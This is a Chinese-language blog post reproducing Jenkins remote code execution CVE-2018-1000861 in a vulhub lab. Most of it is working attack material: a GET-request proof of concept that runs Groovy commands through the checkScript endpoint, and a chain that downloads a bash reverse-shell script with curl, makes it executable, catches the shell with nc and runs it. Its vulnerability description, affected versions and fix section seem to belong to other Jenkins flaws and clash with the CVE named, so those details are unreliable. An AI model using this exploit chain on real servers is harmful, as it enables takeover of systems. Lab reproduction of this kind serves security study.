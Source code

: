 ```yaml
---
title: "CVE-2018-1000861 复现"
date: 2019-11-06T14:32:15+08:00
draft: false
tags: ['远程代码执行漏洞']
categories: ['漏洞复现']
---
```

最近在整理Jenkins相关漏洞,所以来复现下!!

<!--more-->


### 1. 漏洞描述
  Jenkins使用XStream库来序列化和反序列化XML。它的维护者最近发布了一个安全漏洞，任何能够向Jenkins提供XML并使用XStream的用户都可以使Java进程崩溃。Jenkins中，这通常适用于有权创建或配置项目（作业），视图或代理的用户。

### 2. 漏洞原理
  该漏洞存在于使用HTTP协议的双向通信通道的具体实现代码中，Jenkins利用此通道来接收命令，恶意攻击者可以构造恶意攻击参数远程执行命令，从而获取系统权限，造成数据泄露。

### 3. 影响范围
	Jenkins Version <= 2.56
	
	Jenkins LTS Version <= 2.46.1

### 4. 漏洞利用
#### 环境搭建:

直接使用vulhub上的环境即可(徐安装好docker和docker-compose)

(1) 下载vulhub项目,然后进入到  vulhub/jenkins/CVE-2018-1000861目录下

(2)  执行命令:

```
docker-compose up -d
```
来启动环境   


(3) 访问: [http://172.26.1.156:8080/](http://172.26.1.156:8080/)

![图片](https://ae01.alicdn.com/kf/U7700cb5c7e8b4d558ce2e30c6a1a30eeL.jpg)

#### 漏洞复现:

##### 1.此漏洞是没有回显的,所以我们这里直接反弹shell:

此漏洞的POC(直接GET请求即可):

```
GET /securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22touch%20/tmp/CVE-2018-1000861_is_success%22.execute()}}
```
##### 2.我们这里采取下载文件的方法来反弹shell

 (1) 先在我们的服务器上防止一个文本,内容为:

```
bash -i >& /dev/tcp/172.26.1.156/9999 0>&1
```
 (2) 然后我们替换POC中执行命令的部分为下载文件的命令:
```
curl -o /tmp/1.sh http://172.26.1.156:8080/1.txt
```
替换后的POC:
```
http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22curl+-o+/tmp/1.sh+http://172.26.1.156:8080/1.txt%22.execute()}}
```
 (3) 给予下载的脚本执行权限:
```
chmod 777 /tmp/1.sh
```
替换后的POC:
```
http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22chmod+777+/tmp/1.sh%22.execute()}}
```
 (4) 然后在我们接收shell的机器上监听之前写的端口:
```
nc -lvvp 9999
```
 (5)  直接bash执行我们下载的脚本
```
bash /tmp/1.sh
```
替换后的POC:
```
http://172.26.1.129:8080/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript?sandbox=true&value=public%20class%20x%20{public%20x(){%22bash+/tmp/1.sh%22.execute()}}
```
 (6) 回到我们监听端口的机器:
![图片](https://ae01.alicdn.com/kf/U1fa800f6a04448f38d05166dcce9d04cJ.jpg) 可以看到已经成功获取到了shell!

##### 3.这里提供一个GitHub上的利用脚本:

[https://github.com/orangetw/awesome-jenkins-rce-2019](https://github.com/orangetw/awesome-jenkins-rce-2019)

执行案例:

![图片](https://ae01.alicdn.com/kf/Uadc7abd83e45466dbed2f51492676c13j.jpg)

### 5. 漏洞防御
1）由于漏洞危害较大（直接获取系统权限），且目前已有漏洞利用工具，Jenkins官方已修复上述漏洞，并将SignedObject添加到远程黑名单中。建议您尽快对照检查自己所用的Jenkins是否在受影响范围，如受影响，请及时进行升级操作。

a：Jenkins主版本用户需升级到2.58版本

b：Jenkins LTS 版本用户需升级到2.46.2版本

下载链接：[https://jenkins.io/download/](https://jenkins.io/download/)

2）与此同时，建议您针对您的Jenkins后台进行安全加固，在安全组设置仅允许指定的办公IP可以访问管理，禁止对所有非授权用户的访问。

### 6. Reference
[https://blog.csdn.net/JiangBuLiu/article/details/95487423](https://blog.csdn.net/JiangBuLiu/article/details/95487423)

[https://github.com/orangetw/awesome-jenkins-rce-2019](https://github.com/orangetw/awesome-jenkins-rce-2019)

